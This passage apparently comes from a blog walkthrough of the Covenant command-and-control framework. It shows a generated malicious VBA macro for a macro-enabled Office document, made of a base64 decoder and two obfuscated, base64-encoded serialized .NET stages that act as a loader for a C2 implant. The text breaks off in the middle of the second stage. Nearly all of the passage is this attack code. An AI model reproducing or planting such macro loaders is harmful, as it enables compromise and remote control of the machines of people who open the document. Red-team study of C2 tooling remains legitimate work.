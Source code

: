 __Note:__ Please note that we can also generate our malicious vba script to be stored inside an office macro enable document as follow below 🚩

<p align="center">
  <img src="/assets/posts/2021-07-01-Entering-the-Covenant-C2C/cov9.JPG">
</p>


This will generate the following VBA code: 

```vba
Function b64Decode(ByVal enc)
    Dim xmlObj, nodeObj
    Set xmlObj = CreateObject("Msxml2.DOMDocument.3.0")
    Set nodeObj = xmlObj.CreateElement("base64")
    nodeObj.dataType = "bin.base64"
    nodeObj.Text = enc
    b64Decode = nodeObj.nodeTypedValue
    Set nodeObj = Nothing
    Set xmlObj = Nothing
End Function

Function Exec()
    
	Dim stage_1, stage_2

    stage_1 = "AAEAAAD/////AQAAAAAAAAAMAgAAAF5NaWNyb3NvZnQuUG93ZXJTaGVsbC5FZGl0b3IsIFZlcnNpb249My4wLjAuMCwgQ3VsdHVy"
stage_1 = stage_1 & "ZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1BQEAAABCTWljcm9zb2Z0LlZpc3VhbFN0dWRpby5UZXh0"
stage_1 = stage_1 & "LkZvcm1hdHRpbmcuVGV4dEZvcm1hdHRpbmdSdW5Qcm9wZXJ0aWVzAQAAAA9Gb3JlZ3JvdW5kQnJ1c2gBAgAAAAYDAAAAxxA8UmVz"
stage_1 = stage_1 & "b3VyY2VEaWN0aW9uYXJ5DQogICAgICAgICAgICB4bWxucz0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2"
stage_1 = stage_1 & "cmFtZXRlcnM+DQogICAgICAgICAgICAgICAgICAgICAgICA8czpTdHJpbmc+bWljcm9zb2Z0OldvcmtmbG93Q29tcG9uZW50TW9k"
stage_1 = stage_1 & "ZWw6RGlzYWJsZUFjdGl2aXR5U3Vycm9nYXRlU2VsZWN0b3JUeXBlQ2hlY2s8L3M6U3RyaW5nPg0KICAgICAgICAgICAgICAgICAg"
stage_1 = stage_1 & "ICAgICAgPHM6U3RyaW5nPnRydWU8L3M6U3RyaW5nPg0KICAgICAgICAgICAgICAgICAgICA8L09iamVjdERhdGFQcm92aWRlci5N"
stage_1 = stage_1 & "ZXRob2RQYXJhbWV0ZXJzPg0KICAgICAgICAgICAgICAgIDwvT2JqZWN0RGF0YVByb3ZpZGVyPg0KICAgICAgICAgICAgPC9SZXNv"
stage_1 = stage_1 & "dXJjZURpY3Rpb25hcnk+Cw=="

    
stage_2 = "AAEAAAD/////AQAAAAAAAAAMAgAAAFdTeXN0ZW0uV2luZG93cy5Gb3JtcywgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRy"
stage_2 = stage_2 & "YWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODkFAQAAACFTeXN0ZW0uV2luZG93cy5Gb3Jtcy5BeEhvc3QrU3RhdGUB"
stage_2 = stage_2 & "AAAAEVByb3BlcnR5QmFnQmluYXJ5BwICAAAACQMAAAAPAwAAAMd7AAACAAEAAAD/////AQAAAAAAAAAEAQAAAH9TeXN0ZW0uQ29s"
stage_2 = stage_2 & "bGVjdGlvbnMuR2VuZXJpYy5MaXN0YDFbW1N5c3RlbS5PYmplY3QsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9"
stage_2 = stage_2 & "bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dAwAAAAZfaXRlbXMFX3NpemUIX3ZlcnNpb24FAAAICAkC"
stage_2 = stage_2 & "AAAACgAAAAoAAAAQAgAAABAAAAAJAwAAAAkEAAAACQUAAAAJBgAAAAkHAAAACQgAAAAJCQAAAAkKAAAACQsAAAAJDAAAAA0GBwMA"
stage_2 = stage_2 & "dWlkCwAAAAJfYQJfYgJfYwJfZAJfZQJfZgJfZwJfaAJfaQJfagJfawAAAAAAAAAAAAAACAcHAgICAgICAgITE9J07irREYv7AKDJ"
```